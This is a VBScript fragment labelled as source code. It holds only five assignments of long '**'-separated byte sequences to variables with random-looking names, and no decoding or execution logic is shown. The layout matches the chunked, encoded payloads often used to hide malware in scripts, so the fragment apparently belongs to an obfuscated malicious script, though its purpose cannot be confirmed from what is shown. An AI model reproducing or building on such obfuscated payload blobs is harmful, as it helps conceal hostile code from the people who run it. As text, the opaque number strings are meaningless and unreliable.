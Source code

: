 ```vbscript
lgbtq1K5PE = ("6**199**250**81**123**41**72**205**215**173**141**187**209**249**18**105**198**11**77**180**19**55**205**167**43**73**135**121**203**73**18**90**163**81**202**222**231**203**77**241**176**49**158**25**61**97**107**222**74**239**251**241**221**244**105**109**188**139**34**121**194**110**109**60**202**43**38**107**227**78**10**225**18**7**221**176**18**78**103**242**250**152**216**131**211**128**143**163**57**14**231**197**203**141**187**233**122**212**252**183**220**225**61**244**153**54**46**218**97**130**117**78**51**40**113**4**38**154**118**104**63**86**210**142**149**116**96**37**115**163**157**211**59**90**52**204**227**154**246**71**158**138**23**26**41**19**190**75**111**109**173**214**23**158**39**79**94**76**252**133**119**54**141**218**242**6**125**221**118**249**27**187**105**223**216**242**49**117**25**78**96**132**108**140**144**157**184**29**35**28**177**170**20**111**190**223**90**159**255**4**38**191**97**180**50**159**104**218**48**165**56**167**24**149**145**209**123*")

lgbtildg1X = ("*88**164**45**175**114**133**183**249**52**210**102**82**39**194**159**157**40**32**133**221**218**43**25**197**97**39**173**234**158**190**129**251**119**171**57**31**248**105**133**39**33**147**189**45**234**62**46**105**46**53**198**157**198**216**120**170**227**114**123**36**218**105**198**91**140**246**190**156**29**159**104**119**96**253**79**170**138**163**233**160**98**85**179**238**231**237**30**3**182**169**200**31**233**13**202**142**145**202**62**161**19**43**123**101**71**193**193**30**9**207**83**161**33**158**213**68**138**136**213**209**158**46**145**255**241**177**14**74**176**215**149**81**154**255**238**116**135**72**169**158**109**132**143**239**191**112**153**15**105**226**105**137**50**104**1**170**244**46**119**80**185**202**219**18**79**163**92**126**64**210**110**214**93**137**222**207**85**21**128**205**77**199**20**19**22**4**87**7**117**95**124**165**9**25**247**47**186**151**77**154**50**182**223**149**171**59**112**94**180**78**135**20**73**155**93**112**1")

lgbtZkhmJB = ("2**233**155**5**107**75**236**40**22**58**11**11**157**141**35**161**131**158**12**179**246**100**240**55**49**186**85**227**154**221**161**204**167**231**75**184**141**165**241**7**171**208**152**24**131**238**86**2**25**227**80**99**72**104**126**211**231**131**247**209**43**216**81**122**41**72**25**224**101**254**166**255**119**122**124**57**32**202**52**64**25**141**16**22**180**173**236**208**237**159**48**208**197**93**15**193**126**229**146**184**116**221**187**145**243**122**110**210**227**105**186**238**95**149**73**177**246**248**92**19**172**255**168**155**53**25**196**156**185**179**248**2**83**236**70**126**244**21**27**248**180**184**142**75**211**233**121**15**182**15**113**228**251**122**14**138**243**148**78**185**162**208**249**116**164**174**210**143**74**190**94**28**43**70**170**225**21**168**69**14**11**127**221**233**36**225**15**157**85**120**126**13**251**137**166**175**76**211**186**201**213**80**254**148**159**37**36**100**110**207**189**58**184**3**76**115*")

lgbta2gYZb = ("*177**55**241**49**210**186**231**199**122**254**170**83**158**16**247**128**189**130**239**20**252**23**130**239**17**188**79**240**119**5**63**44**120**66**240**94**193**15**9**126**92**240**163**130**179**144**198**223**20**237**207**4**63**32**248**135**130**239**16**124**187**224**45**130**223**39**248**79**5**191**83**240**109**235**83**239**47**184**188**25**163**31**30**85**215**247**45**141**125**180**24**185**159**120**175**143**223**95**249**123**226**169**99**120**166**144**76**120**13**93**238**116**158**246**218**172**95**115**223**231**106**54**206**103**191**0**137**146**158**24**247**39**85**141**47**236**43**104**123**189**217**213**215**127**166**210**247**25**71**186**255**144**220**20**40**19**109**14**109**221**168**206**206**149**111**85**161**103**141**175**171**147**177**124**177**206**231**202**255**159**226**247**173**169**118**175**189**170**224**175**243**60**126**63**171**188**177**190**178**76**174**246**133**21**57**84**232**119**133**195**114**24**58**5")

lgbte5KLMf = ("5**4**124**138**207**229**247**125**95**46**12**161**230**118**249**203**101**183**226**171**11**204**9**120**202**131**190**64**97**93**36**160**228**23**176**43**174**190**130**177**249**197**75**88**136**5**124**190**186**96**221**186**181**30**239**58**228**213**197**78**182**208**23**168**222**64**63**4**42**190**90**217**238**117**249**252**145**144**124**125**6**179**219**151**249**66**74**196**229**95**28**145**67**155**120**135**236**177**123**235**66**246**41**30**251**154**77**138**28**182**187**20**187**203**227**9**201**225**176**125**74**144**48**219**237**75**3**235**2**117**27**2**246**96**88**142**120**234**236**33**217**95**231**118**17**34**250**241**81**169**115**215**249**237**245**114**40**76**130**41**158**188**140**97**108**214**248**20**123**24**179**211**117**231**23**22**94**111**207**85**60**181**87**21**92**110**191**54**175**32**47**255**207**147**157**205**37**75**112**195**247**203**152**97**179**201**112**177**217**104**188**195**160**253**52**71**183**")

```